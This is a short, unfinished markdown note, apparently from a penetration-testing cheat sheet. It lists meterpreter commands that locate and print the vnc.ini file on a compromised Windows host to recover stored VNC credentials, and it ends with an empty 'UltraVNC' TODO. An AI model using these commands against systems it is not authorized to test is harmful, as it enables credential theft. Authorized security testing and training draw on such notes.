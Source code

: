 # Metasploit

```
meterpreter > ls -RS "vnc.ini"

meterpreter > search -d C:\\ -f vnc.ini

meterpreter > cat C:\path\to\vnc.ini
```

UltraVNC

TODO: Fill this info